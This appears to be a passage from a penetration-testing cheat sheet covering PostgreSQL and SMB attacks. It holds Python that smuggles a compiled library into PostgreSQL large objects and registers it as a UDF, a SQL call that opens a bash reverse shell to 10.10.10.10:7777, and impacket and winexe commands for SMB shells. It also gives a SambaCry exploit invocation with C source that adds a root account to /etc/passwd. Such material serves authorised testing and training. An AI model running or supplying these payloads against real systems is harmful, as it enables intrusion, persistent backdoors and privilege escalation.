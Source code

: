 ```python=
create_lo()

pg_exec_binary = open("pg_exec.so",'rb').read()
udf = pg_exec_binary.hex()
def inject_udf():
    for i in range(0,int(round(len(udf)/4096))+1): # Done
        udf_chunk = udf[i*4096:(i+1)*4096]
        if len(udf_chunk) == 4096:
            sql = f"INSERT INTO pg_largeobject (loid, pageno, data) values ({loid}, {i}, decode('{udf_chunk}', 'hex'))"
            do_query(sql)
inject_udf()

def lo_export():
    command = "SELECT lo_export(1234,'/tmp/pg_exec.so');"
    do_query(command)
lo_export()
```
- `CREATE FUNCTION sys(cstring) RETURNS int as '/tmp/pg_exec.so', 'pg_exec' LANGUAGE 'c' STRICT;`
- `SELECT sys($$bash -c "bash -i >& /dev/tcp/10.10.10.10/7777 0>&1"$$);`
### SMB
- smb to shell
    - `winexe -U '{username}' //{ip} cmd.exe`
    - `impacket-smbexec '{username}:{password}'@{ip}`
    - `impacket-psexec {username}:{password}'@{ip}`
- Check version
    - `nmap -p139,445 --script smb-os-discovery -Pn {IP}`
    - Open Wireshark
        - `smbclient -N -L "//{IP}/" --option='client min protocol=nt1'`
    - msf
        - `scanner/smb/smb_version`
- CVE-2017-7494 SambaCry , linux/samba/is_known_pipename
    - Check vuln
        - `nmap --script smb-vuln-cve-2017-7494 --script-args smb-vuln-cve-2017-7494.check-version -p445 -Pn {IP}`
    - Check share dir
        - `nmap --script=smb-enum-shares -p445 -Pn {IP}`
    - https://github.com/joxeankoret/CVE-2017-7494
        - `python2 cve_2017_7494.py -t 10.11.1.146 --custom command.so`
    - `gcc -o command.so -shared command.c -fPIC`
        - ```C=
          #include <stdio.h>
          #include <unistd.h>
          #include <netinet/in.h>
          #include <sys/types.h>
          #include <sys/socket.h>
          #include <stdlib.h>
          #include <sys/stat.h>
          int samba_init_module(void)
            {
              setresuid(0,0,0); 
              system("echo root1:yeDupmFJ8ut/w:0:0:root:/root:/bin/bash >> /etc/passwd");
              return 0;
            }
          ```
- List user
    - `nmap --script smb-enum-users.nse -p445 {IP}`
- Low Version
    - `--option='client min protocol=nt1'`
        - If got `NT_STATUS_CONNECTION_DISCONNECTED`
- Symlink Directory Traversal ( < 3.4.5)
    - Tested on 3.0.24